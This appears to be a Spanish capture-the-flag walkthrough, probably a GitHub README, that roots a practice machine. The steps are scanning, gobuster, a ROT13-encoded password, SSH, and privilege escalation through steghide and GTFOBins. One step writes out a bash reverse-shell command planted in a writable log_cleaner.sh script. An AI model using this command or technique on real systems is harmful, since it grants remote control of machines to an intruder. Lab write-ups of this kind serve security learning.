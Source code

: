 1- Ping y NMAP

<img width="616" height="369" alt="image" src="https://github.com/user-attachments/assets/9ce72a82-328d-48a5-b139-d8761016ba78" />

2- Voy via http y me encuentro un panel de login vulnerable a ssti:

<img width="411" height="246" alt="image" src="https://github.com/user-attachments/assets/7e88f50f-265a-40ea-a2cf-cdaf7818ccc1" />

Hay una lista de usuarios, me los guardo en un txt.

4- Ver directorios ocultos gobuster:

<img width="765" height="473" alt="image" src="https://github.com/user-attachments/assets/035be4f6-d4a8-4248-a94a-65fad1c9c0b9" />

El directorio spam es un poco turbio y voy a verlo, hay unos codigos:

<img width="817" height="405" alt="image" src="https://github.com/user-attachments/assets/588eac9b-737b-45f9-97b4-81e9cb3bcb66" />

ES un codigo en root13 o algo asi, lo decodifico ::

<img width="514" height="550" alt="image" src="https://github.com/user-attachments/assets/2ddd4bf6-8da0-439e-bf53-f4cad0152d64" />

Ahora tenemos una passw y una lista de usuarios: fuerza bruta o provar uno por uno

<img width="747" height="243" alt="image" src="https://github.com/user-attachments/assets/0bfd4a9c-7131-422a-9467-02410d8028cb" />

- Ya tenemos el usuario y la pass. Nos logeamos via ssh

- He encontrado un .sh y lo he modificado y le he puesto esto::

  pedro@a72dc57d2785:/opt$ nano log_cleaner.sh ese es el fichero y le he añadido esto:::

  bash -c "bash -i >& /dev/tcp/tu ip/1234 0>&1"-----y te pones en escucha con netcat y automaticamente recibes la shell:

  5- Ya somos valentina y vemos esto, una imagen , la voy a descargar para comprovar a  ver si tiene algo

  <img width="420" height="457" alt="image" src="https://github.com/user-attachments/assets/80ea0696-3816-4928-b7d4-63c34e07f9c1" />

<img width="738" height="429" alt="image" src="https://github.com/user-attachments/assets/77f1c84d-6d91-457c-90cf-0c3d858d108d" />

Le paso steghide y encuentro una passw, es del usuario valentina:

<img width="491" height="300" alt="image" src="https://github.com/user-attachments/assets/f98c0dc8-755b-42e3-aff1-8c8012032705" />

Hago login y busco GTFOBins y ya somos root.

<img width="357" height="84" alt="image" src="https://github.com/user-attachments/assets/883551e6-ae21-4180-8c7f-f60d075f65fb" />
